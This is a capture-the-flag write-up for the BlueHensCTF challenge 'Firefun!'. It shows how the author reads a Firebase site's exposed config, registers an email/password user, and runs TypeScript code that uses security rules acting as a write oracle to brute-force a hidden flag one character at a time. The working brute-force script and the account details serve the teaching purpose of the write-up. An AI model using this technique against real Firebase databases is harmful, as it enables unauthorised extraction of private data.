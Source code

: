 ```yaml
---
layout: post
current: post
cover:  False
navigation: True
title: "Firefun!"
date: 2022-11-03 10:00:00
tags: [BlueHensCTF, web]
class: post-template
subclass: 'post'
author: nisala
---
```


I love Firebase. So this really was the perfect challenge for me.

Special shoutout to Kyle for working on this with me ❤️

## The Challenge

In this challenge, we get a [link to a Firebase-hosted website](https://udctf-fire.web.app/), which displays the following image:

![Image showing Firebase RTDB with the flag and the rules for the database](/assets/bluehens/nisala/rules.webp)

Okay, so it looks the flag is stored character-by-character in Realtime Database (RTDB), and the security rules block us from reading it directly. However, if we're authenticated, we can write to `/oracle/$userid/$index`, and if the written character at $index maches the character at $index at `/flag`, the write succeeds. Otherwise, the write fails. So assuming we can authenticate, we can brute-force the flag character-by-character, cycling through some character set until the write succeeds for each index.

## Getting Authenticated

So to start, we need to authenticate. But how can we do that without a Firebase API key? Well, this website is hosted on Firebase, and by default, Firebase Hosting exposes a web API key and related config at `/__/firebase/init.json`. When we go there, we get the following output:

```json
{
  "apiKey": "AIzaSyDmLIX31LAFvb1hefXs-e6Baspcfg6ran8",
  "authDomain": "udctf-fire.firebaseapp.com",
  "databaseURL": "https://udctf-fire-default-rtdb.firebaseio.com",
  "messagingSenderId": "272888152617",
  "projectId": "udctf-fire",
  "storageBucket": "udctf-fire.appspot.com"
}
```

Perfect. Now, we can authenticate and solve the challenge. In order to make things easier on myself, I created a React App, so that way I can use the Firebase JS SDK to authenticate and work with the databse. You can create a React App using `npx create-react-app firefun --template typescript`, and then you can install the Firebase SDK by running `npm install firebase`.

And now it's time to try to authenticate. There are three types of sign-up that are Firebase-native and thus don't require API keys from third parties -- Anonymous, Email/Password, and Phone. I first tried anonymous login, since it was the easiest:

```tsx
// App.tsx
import { initializeApp } from "firebase/app";
import { getAuth, signInAnonymously } from "firebase/auth";

initializeApp({
    "apiKey": "AIzaSyDmLIX31LAFvb1hefXs-e6Baspcfg6ran8",
    "authDomain": "udctf-fire.firebaseapp.com",
    "databaseURL": "https://udctf-fire-default-rtdb.firebaseio.com",
    "messagingSenderId": "272888152617",
    "projectId": "udctf-fire",
    "storageBucket": "udctf-fire.appspot.com"
});

signInAnonymously(getAuth());
```

Checking the console, we see `Firebase: Error (auth/admin-restricted-operation).`. Rats. Well, let's try email/password:

```js
createUserWithEmailAndPassword(getAuth(), "avishkank@gmail.com", "password");
```

No error in the console -- it works! Now that we have a working user, we can start brute-forcing the flag.

## Getting the Flag

To brute-force the flag, we need to loop through a character set of all possible characters in the flag, and try writing them one by one. If it fails, that's not the character at that index -- but if it succeeds, we've found it, and we can save it and move on.

```tsx
// cred is from the signInWithEmailAndPassword function
const uid = cred.user.uid;
let db = getDatabase();

let flag = [];
const CHAR_SET = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ{}_";
let i = 0;
while (flag[flag.length - 1] !== "}") {
    for (let char of CHAR_SET.split("")) {
        try {
            await set(ref(db, `/oracle/${uid}/${i}`), char);
            flag.push(char);
            i++;
            break;
        } catch {}
    }
}
```

Now that this challenge is pretty straightforward, it's time to add some flair. We have a React app, after all! Let's write the flag to a React state variable as we go, and put this code in a `useEffect` so it runs when the page loads:

```tsx
const [finalFlag, setFinalFlag] = useState<string[]>([]);

useEffect(() => {
    signInWithEmailAndPassword(getAuth(), "avishkank@gmail.com", "password").then(async (cred) => {
        const uid = cred.user.uid;
        let db = getDatabase();

        let flag = [];
        const CHAR_SET = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ{}_";
        let i = 0;
        while (flag[flag.length - 1] !== "}") {
            for (let char of CHAR_SET.split("")) {
                try {
                    await set(ref(db, `/oracle/${uid}/${i}`), char);
                    flag.push(char);
                    setFinalFlag(flag);
                    i++;
                    break;
                } catch {}
            }
        }
    });
}, []);
```

And finally, instead of the boring, default React app text, we can display the flag as it's being brute-forced:

```tsx
{ finalFlag.length > 0 ? finalFlag.join("") : "Starting up..." }
```

And now all we have to do is open the React app and watch it brute-force the flag in real time.

![GIF of solution](/assets/bluehens/nisala/solve.gif)

